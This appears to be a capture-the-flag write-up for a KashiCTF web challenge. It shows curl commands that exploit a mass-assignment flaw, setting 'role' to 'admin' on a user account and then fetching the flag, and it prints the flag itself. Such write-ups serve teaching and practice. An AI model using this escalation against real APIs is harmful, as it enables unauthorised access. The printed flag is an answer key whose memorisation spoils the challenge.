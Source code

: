 # SuperFastAPI

Solved by: @OS1R1S

### Question:
Made my verty first API!

However I have to still integrate it with a frontend so can't do much at this point lol.

### Solution:
1. Fuzz directory. found /docs
2. Create account
```bash
curl -X 'POST' \
  'http://kashictf.iitbhucybersec.in:21490/create/admin' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "fname": "admin",
  "lname": "admin",
  "email": "try@try.com",
  "gender": "attack helicopter"
}'
```
1. Update account to admin
```bash
curl -X 'PUT' \
  'http://kashictf.iitbhucybersec.in:21490/update/admin' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "fname": "John",
  "lname": "Doe",
  "email": "john.doe@example.com",
  "gender": "male",
  "role": "admin"
}'
```
1. get flag
```bash
curl -X 'GET' \
  'http://kashictf.iitbhucybersec.in:21490/flag/admin' \
  -H 'accept: application/json'
{
  "message": "KashiCTF{m455_4551gnm3n7_ftw_udvAZiNsv}"
}
```

**Flag:** `KashiCTF{m455_4551gnm3n7_ftw_udvAZiNsv}`


